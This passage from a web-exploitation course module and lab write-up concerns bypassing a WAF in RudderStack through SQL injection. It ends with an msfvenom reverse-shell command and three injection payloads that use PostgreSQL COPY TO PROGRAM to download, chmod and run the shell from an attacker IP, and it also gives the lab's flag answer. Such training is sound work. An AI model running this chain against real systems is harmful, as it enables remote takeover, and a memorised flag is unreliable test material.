 Figure 22: Repeater with 500 Internal Server Error response
Figure 22: Repeater with 500 Internal Server Error response
We received an error from the server, but the WAF did not block our request. Let's check our HTTP server.

kali@kali:~$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
192.168.120.144 - - [29/Feb/2024 15:44:44] code 404, message File not found
192.168.120.144 - - [29/Feb/2024 15:44:44] "GET /it_will_bypass HTTP/1.1" 404 -
Listing 21 - Python HTTP server logs

Excellent. We received a request from the server, indicating our payload evaded the WAF rules. While WAFs play an important role in the concept of defense in depth, they cannot prevent every single attack. Common WAF rules are generalized to work in many different contexts. These same generalities are what allow us to evade the rules by modifying our attack payloads.

Resources
Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

RudderStack - WAF Bypass	
192.168.184.144
Labs
Using the RudderStack - WAF Bypass VM, access the vulnerable endpoint on port 80, exploit the SQL injection vulnerability, and get a reverse shell. The flag is located at /flag.txt.
Answer
OS{7f7d76340a1a5b9661662e82bea04283}
12.4. Wrapping Up
In this Learning Module, we performed source code analysis to discover API endpoints and used manual testing to determine which were unauthenticated. After we identified an endpoint, we determined how to structure our request and found a SQL injection vulnerability. We also examined the role web application firewalls play in defending web applications and how their rules may be too generalized to mitigate every single vulnerability.


For getting reverse shell:

We generated shell.elf using msfvenom.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST="192.168.45.204" LPORT=8888 -f elf > shell.elf

```

We hosted the exploit on kali. Downloaded the exploit. Made it executable and executed it.

```
{ "source_id":"' or 1=2; copy (select 'a') to program 'wget -q http://192.168.45.204:8000/shell.elf' -- - ", "task_run_id":"1"}

{ "source_id":"' or 1=2; copy (select 'a') to program 'chmod +x shell.elf' -- - ", "task_run_id":"1"}

{ "source_id":"' or 1=2; copy (select 'a') to program './shell.elf' -- - ", "task_run_id":"1"}
```
